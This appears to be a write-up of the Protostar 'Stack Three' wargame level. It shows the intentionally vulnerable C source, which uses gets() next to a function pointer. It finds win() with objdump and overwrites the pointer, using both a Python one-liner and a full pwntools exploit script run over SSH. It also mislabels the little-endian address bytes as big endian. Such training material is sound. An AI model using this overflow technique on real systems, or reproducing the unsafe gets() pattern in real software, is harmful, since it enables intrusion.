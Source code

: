 # Stack Three

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

**Hints**
- both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Writeup

In this code we have the buffer of 64 elements and a function pointer upper that.

We can overwrite the function pointer with the pointer of **win()** function to execute it.

To obtain the pointer of **win()** function, we can use **objdump**:

```bash
objdump -d /opt/protostar/bin/stack3
```

This is the **win()** function:

```
08048424 <win>:
 8048424:	55                   	push   %ebp
 8048425:	89 e5                	mov    %esp,%ebp
 8048427:	83 ec 18             	sub    $0x18,%esp
 804842a:	c7 04 24 40 85 04 08 	movl   $0x8048540,(%esp)
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave  
 8048437:	c3                   	ret  
```

The address in **big endian** will be:

```
\x24\x84\x04\x08
```

We can inject it with:

```bash
python -c "print('a' * 64 + '\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
```

With this output:

```bash
$ python -c "print('a' * 64 + '\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Exploit

```python
#!/usr/bin/python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('stack3')

host = args.HOST or 'protostar'
port = int(args.PORT or 22)
user = args.USER or 'user'
password = args.PASSWORD or 'user'
remote_path = '/opt/protostar/bin/stack3'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    if args.GDB:
        return gdb.debug([remote_path] + argv,
                         gdbscript=gdbscript,
                         ssh=shell,
                         *a,
                         **kw)
    else:
        return shell.run([remote_path] + argv, *a, **kw)


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
#gdbscript = '''
#break *0x{exe.symbols.main:x}
#continue
#'''.format(**locals())

io = start()
win_address = exe.symbols.win
payload = cyclic(64) + p32(win_address)
io.sendline(payload)
log.success(io.recv())
```